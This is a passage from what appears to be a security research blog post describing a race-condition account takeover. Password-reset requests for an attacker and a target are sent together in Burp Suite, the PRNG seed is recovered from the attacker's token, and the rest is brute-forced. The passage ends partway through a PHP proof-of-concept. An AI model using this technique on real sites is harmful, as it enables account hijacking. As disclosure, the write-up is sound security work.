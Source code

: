 To exploit the issue, we need to send the reset password request for the attacker account and target account at the same time. To do this, we can create a group send in Burp Suite’s Repeater.

![](https://whiteknightlabs.com/wp-content/uploads/2024/06/2024-06-12_232554.png)

Figure 9 – First request for the attacker account

![](https://whiteknightlabs.com/wp-content/uploads/2024/06/2024-06-12_232658.png)

Figure 10 – Second request for the target account

Make sure to enable the Send group single connection as below:

![](https://whiteknightlabs.com/wp-content/uploads/2024/06/10.png)

Figure 11 – Single connection enabled

Using MySQL database, we can see the token was generated for the attacker account and target account at the same time.

![](https://whiteknightlabs.com/wp-content/uploads/2024/06/11-1024x255.png)

Figure 12 – Reset tokens in mysql

From the attacker’s perspective, we only have access to attacker token, which is F4zrX6rBBHaOadoTwsRvJddtyl5vEeif.

With this information, let’s use the same attack process as before.

![](https://whiteknightlabs.com/wp-content/uploads/2024/06/2024-06-12_232756.png)

Figure 13 – Seed was found

It’s true that we found the seed, but the next seed that was used to generate the target token will be a bit different. Let’s continue to see in what way.

If we copy the target token, we can use the same attack to get the seed and compare the target seed and attacker seed:

![](https://whiteknightlabs.com/wp-content/uploads/2024/06/2024-06-12_232906.png)

Figure 14 – Extracted seed for the target account

We can see that the first four digits of the seeds are the same.

```
Attacker   F4zrX6rBBHaOadoTwsRvJddtyl5vEeif<mark>1851</mark><mark>353544</mark>
target8YIWjEdIWNrsPNk60mzufqVHjGSxSnfe<mark>1851</mark><mark>289360</mark>
```

Now all we need to do is brute force the remaining seed, which is only 6 digits!

Using our POC to attack:

```
&lt;?php
function generateRandomString($length = 10)
{
    $characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $rnd_result = '';
    for ($i = 0; $i &lt; $length; $i++) {
        $rnd_result .= $characters[rand(0, strlen($characters) - 1)];
    }
    return $rnd_result;
}

// Function to generate all possible combinations
function generateCombinations($length, $characters) {
    $combinations = [];
    $totalCombinations = pow(count($characters), $length);
    for ($i = 0; $i &lt; $totalCombinations; $i++) {
```